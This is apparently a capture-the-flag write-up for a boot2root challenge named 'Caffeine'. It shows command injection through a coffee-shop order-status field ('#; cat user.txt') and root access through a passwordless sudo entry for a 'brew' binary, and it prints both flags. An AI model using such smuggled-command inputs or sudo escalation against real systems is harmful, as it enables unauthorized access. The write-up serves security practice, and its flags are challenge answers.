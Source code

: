 # Caffeine

> Boot2root

## User

```text
This new coffee shop recently opened and you've been waiting too long for your daily caffeine injection! Can you find a way to see a little more than just your order status?

The user flag is in a file called user.txt.
```

![image](../images/2.png)

On checking, the text box at right side can be used for RCE

```shell
Order Status for #; ls
hint.txt
index.php
orders.log
user.txt
```

```shell
Order Status for #; cat user.txt
brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}
```

## Root

```text
Now that you have access to their system, is there any way you can escalate your privileges and read the final flag?

The root flag is located in /root/root.txt.
```

```shell
Order Status for #; cat /root/root.txt
No order found with ID #; cat /root/root.txt

Order Status for #; sudo cat /root/root.txt
No order found with ID #; sudo cat /root/root.txt
```

```shell
Order Status for #; cat hint.txt
Are there any files you *sudo'ent* (shouldn't) be able to run as a normal user?
The root flag is located at /root/root.txt
```

The hint indicates towards commands which can be *run with sudo without a password*

```shell
Order Status for #; sudo -l
Matching Defaults entries for www-data on ctf-caffeine-user-5428ae29c619f229-cffdd5566-llq4p:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-5428ae29c619f229-cffdd5566-llq4p:
    (ALL) NOPASSWD: /usr/local/bin/brew
```

`brew`..hmmm

```shell
Order Status for #; sudo brew /root/root.txt
   ( (
    ) )
   ( (
  .-'--.
  |◉.◉|  
  |    |  
  '~~~~'  
   ROOT PRIVILEGES DETECTED
   JavaJack's *Special Reserve* Brew

  Brewing your file reading...
═══════════════════════════════════════════════
brunner{5uD0_pR1V1L3g35_T00_h0t_F0r_J4v4_J4CK!}
═══════════════════════════════════════════════

    ) )
   ( (
  .-'-.
  |‼.‼|  
  |   |  
  '~~~'  
   Root Brew Successful!
```
